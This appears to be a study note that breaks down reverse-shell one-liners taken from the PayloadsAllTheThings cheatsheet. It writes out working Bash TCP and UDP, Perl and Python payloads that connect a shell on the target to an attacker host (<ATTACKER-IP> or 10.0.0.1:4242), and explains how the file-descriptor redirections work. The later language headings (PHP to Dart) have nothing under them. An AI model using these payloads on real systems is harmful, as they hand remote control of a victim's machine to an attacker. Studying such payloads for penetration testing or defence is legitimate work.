 # PayloadsAllTheThings Reverse shell analysis

[Reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Bash TCP**

**1.`bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1`**

`bash -i` start an interactive bash shell

`>& /dev/tcp/<ATTACKER-IP>/<PORT>` redirect stdout and stderr to a TCP socket connection 

`0>&1` or `0<&1` connect file descriptor 1 (stdout TCP socket connection) to file 
descriptor 0 (stdin)

We connect an interactive bash shell to the attackers machine through a TCP socket and 
execute commands by redirecting stdout from the TCP connection to stdin on the target 
machine.

**2. `0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196`**

`0<&196;` duplicate input file descriptor 196 to 0 (stdin)

`exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>;` redirect stdin and stdout of the tcp socket 
connection to file descriptor 196

`sh <&196 >&196 2>&196` execute stdin from file descriptor 196 with sh, redirect stdout
from sh to file descriptor 196, redirect stderr to file descriptor 196

**3. `/bin/bash -l > /dev/tcp/<ATTACKER-IP>/<PORT> 0<&1 2>&1`**

`/bin/bash -l` start bash as if a login shell were invoked

`> /dev/tcp/<ATTACKER-IP>/<PORT> ` redirect stdout to a TCP socket connection

`0<&1 2>&1` moves file descriptor 1 (stdout TCP connection) to file descriptor 0 (stdin) 
and redirects file descriptor 2 (stderr) to file descriptor 1 (stdout TCP connection)

**Bash UDP**

**`sh -i >& /dev/udp/<ATTACKER-IP>/<PORT> 0>&1`**

Same as Bash TCP 1 but with UDP

**Perl**

**1. `perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`**

`perl -e` execute the following perl command

`use Socket;` import Socket's functions

`$i=<ATTACKER-IP>;$p=<PORT>` define the variables i and p of our listening machine

`socket(S,PF_INET,SOCK_STREAM, getprotobyname("tcp");` call the socket function creating a 
TCP socket attaching it to filehandle S

```
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

connect socket S to a listening machine on $i:$p, and if successful, redirect stdin from 
the connected socket and redirect stdout and stderr to the connected socket and finally 
execute a sh shell in interactive mode

**2. `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`**


**3. Windows only `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`**

**Python**

**IPv4**

**1. `export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`**

**2. `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`**

**3. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`**

**IPv6**

**Windows only**

**PHP**

**Ruby**

**Golang**

**OpenSSL**

**Powershell**

**Awk**

**Java**

**Telnet**

**War**

**Lua**

**NodeJS**

**Groovy**

**C**

**Dart**